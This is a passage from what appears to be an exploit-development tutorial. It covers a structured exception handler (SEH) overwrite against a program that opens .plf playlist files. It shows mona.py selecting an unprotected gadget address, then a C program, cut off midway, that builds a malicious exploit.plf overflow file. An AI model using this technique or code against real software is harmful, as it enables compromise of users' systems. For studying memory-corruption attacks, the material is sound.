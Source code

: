 ![alt text](assets/post_4/nasm.png)

So now we’ll use mona.py to find an address in the code section that points to these three instructions.

![alt text](assets/post_4/mona_seh.png)

The first one on the list already meets our needs, as it’s not protected by ASLR, rebase, or SEH-safe, and it also doesn’t contain any bad characters. This makes it much easier for us to write our exploit.

###  Reworking our payload

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    FILE *arq;
    char *filename = "exploit.plf";
    char seh[] = {0x51, 0xAA, 0x33, 0x60}; // 0x6033AA51 in little-endian

    int sizeA = 612;
    int sizeC = 400;

    int totalSize = sizeA + sizeof(seh) + sizeC + 1;
    char *payload = (char *)malloc(totalSize);
    if (payload == NULL) {
        return 1;
    }

    memset(payload, 'A', sizeA);

    memcpy(payload + sizeA, seh, sizeof(seh));

    memset(payload + sizeA + sizeof(seh), 'C', sizeC);

    payload[totalSize - 1] = 'D';

    arq = fopen(filename, "wb");
    if (arq == NULL) {
```